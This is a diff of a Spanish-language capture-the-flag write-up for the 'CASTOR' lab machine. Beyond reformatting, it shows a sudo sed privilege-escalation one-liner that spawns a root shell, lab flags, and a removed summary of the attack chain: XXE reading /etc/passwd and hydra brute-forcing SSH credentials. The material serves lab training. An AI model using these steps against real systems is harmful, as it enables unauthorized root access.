

Before and after one commit to kaleth4/THEHACKERLABS, a Markdown page: CASTOR/README.md, the part around one of its changes. Shown at 98% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/CASTOR/README.md
+++ b/CASTOR/README.md
@@ -157,4 +179,5 @@ ssh castorcin@192.168.80.73
 
+### **Obtención de flag de usuario**
 ```bash
 cat user.txt
 ```
@@ -164,10 +187,11 @@ cat user.txt
 THL{JDBNASJNAdnnasdkasdaCastorcito}
 ```
 
-# Escalada de Privilegios
+---
 
-## Enumeración sudo
+## **Escalada de Privilegios**
 
+### **Enumeración de `sudo`**
 ```bash
 sudo -l
 ```
@@ -177,40 +201,31 @@ sudo -l
 (ALL : ALL) NOPASSWD: /usr/bin/sed
 ```
 
-## Explotación de sed
+---
 
+### **Explotación de `sed`**
 Se aprovechó el binario permitido para obtener shell root:
-
 ```bash
 sudo sed -n '1e exec sh 1>&0' /etc/hosts
 ```
 
+**Shell root obtenida:**
 ```bash
 whoami
-root
+# root
 ```
 
-# Captura de Flags
+---
 
-## Root Flag
+## **Captura de Flags**
 
+### **Root Flag**
 ```bash
 cd /root
 cat root.txt
 ```
 
-**Flag Root:**
+**Flag:**
 ```
 THL{asdmaskdmasdkCASTOR}
 ```
-
----
-
-## Resumen del ataque
-
-1. **Reconocimiento** → `arp-scan`, `nmap`
-2. **Enumeración web** → `gobuster` descubre `/upload.php`
-3. **XXE** → Lectura de `/etc/passwd` revela usuario `castorcin`
-4. **Fuerza bruta SSH** → `hydra` obtiene credenciales `castorcin:chocolate`
-5. **Escalada de privilegios** → `sudo sed` permite ejecución de comandos como root
-6. **Flags obtenidas** → User: `THL{JDBNASJNAdnnasdkasdaCastorcito}` | Root: `THL{asdmaskdmasdkCASTOR}`
````
Also changed, not shown: other parts of CASTOR/README.md (+80 -58 lines).
